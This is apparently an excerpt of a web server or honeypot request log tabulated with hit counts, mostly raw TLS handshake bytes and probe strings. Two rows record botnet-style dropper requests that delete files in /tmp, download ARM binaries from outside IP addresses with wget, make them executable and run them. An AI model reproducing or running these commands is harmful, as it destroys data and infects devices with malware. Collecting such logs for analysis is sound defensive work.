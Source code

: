 |  56 |                     2 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                    |
|  57 |                     2 | HELP                                                                                                                                                                                                                                                                                                                                                                                                             |
|  58 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03Iy\xF4!\xC4\x12;\x81\x00p\xD3\xC8\xBC\xDE\xCDU\xAB\xB1@N\xE25C\x87&0:F9\xC0\xEAP\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                         |
|  59 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xCCa\xEBg\xE1\xDC|c\xFA\xE7w4\x14?P\x84o\xFAhn\xD0\x84K\xB6\xDB\xF8$+\xB5\x5C\xBE                                                                                                                                                                                                                                                                                         |
|  60 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\x1EG=\x91=/\xEF\xC3\xC3\x93\xAD\x06\xB3\xE2\xD6\x9B>\xCA\xCA\x16t\xCB\x04v\xCBxZ=\xCF\xB4\xAB\xFA \xFC\xF7\xA2\xFD\xBD\x93v\x00\xF4\xDFJ\xC2n\xA3\xA4\x0CA\x15\x0C\xEF\xB1\xCA\xED\xEB\x1B.\xDB\x10~7\xBCV\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                               |
|  61 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x1D\x8C\xC8\x82e\xFB&p[$\x8E^5-\xB9\x99\xF6\x12\xDF\x07K\x0F\x10t\x8FA+\xD4Q\xCC\x17\x9B \x97\xA2\xD7\xD6\x94\xF5\x93S\xF9R\xC2\x03\x22:\x01.T\x1B\xF0\xDFk\xD2\xD4\x04\x15\x9C\x16                                                                                                                                                                                 |
|  62 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03                                                                                                                                                                                                                                                                                                                                                                           |
|  63 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03\x5C\xFE\xAD\xE7:\x8B8=\xF0\x09z\xAD\xA8\xC0\xCB6H\x86esgU\xA5Z\xA0\xA3\x8C1\xCE\x0F:\x19\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                               |
|  64 |                     1 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.19/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.19/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1                                                                                                                                                                                        |
|  65 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x12s\x99\x82\x81\xC8.\x05\x9A8/w)\xA5\xC1\x98X\xA9\x13{r\x02C\x04\x86<G\xE2\xCF\xC7\xAF7 F\x1D$\xC8\x9A\xB7;-F\x9C\xE8RQ\x1D\xBD\xF2w\x95$\xF7Rsyu/4wT\x16\xCA[\xBC\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                    |
|  66 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x982\xD0\xCF                                                                                                                                                                                                                                                                                                                                                              |
|  67 |                     1 | \x04\x01\x00\x194e\x09\x1B\x00                                                                                                                                                                                                                                                                                                                                                                                   |
|  68 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x00\x9F\x99\xDE\xE4\xDC\xD9\x15\xEA)\x09\xEB\xFD\xBD\x08l\xB2\xDE6G\x22\x90\xCD\x8Ek'2t\xA7@e@\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                          |